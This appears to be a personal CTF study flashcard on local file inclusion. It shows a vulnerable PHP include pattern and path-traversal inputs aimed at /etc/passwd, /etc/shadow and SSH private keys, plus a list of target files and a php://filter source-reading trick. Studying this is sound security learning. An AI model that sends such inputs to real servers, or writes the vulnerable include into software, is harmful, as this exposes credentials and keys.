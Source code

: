 ```yaml
---
aliases:
  - Local file inclusion
tags:
  - flashcard/active/ctf
---
```


# Local file inclusion

Local file inclusion opens up {{access to server's local files}}because of vulnerabilities  
- Example vulnerable PHP code
```php
include($_GET['page'] . ".php");
```
1. User input ($_GET['page']) is used directly without {{validation}}
2. The include() function will try to read and include {{ANY file the web server has access to}}
3. No restrictions on:
- {{File path}} (../ can be used to traverse directories)
- {{File type (can include any file}}, not just PHP)
Corresponding attack to the above vulnerability
```php
http://vulnerable.com/index.php?page=../../../etc/passwd

# Original intended use:
page=header.php

# Malicious uses:
page=../../../etc/passwd    # Read system users
page=../../../etc/shadow    # Read password hashes
page=../../.ssh/id_rsa      # Read SSH keys
```
<!--SR:!2024-12-15,1,230!2024-12-18,4,270!2024-12-15,1,230!2024-12-18,4,270!2024-12-18,4,270-->

# Common files to target

```
/etc/passwd     # User information
/etc/hosts      # Network configuration
/proc/self/environ  # Environment variables
/var/log/apache2/access.log  # Web server logs
php://filter/convert.base64-encode/resource=index.php  # Read PHP source code
```
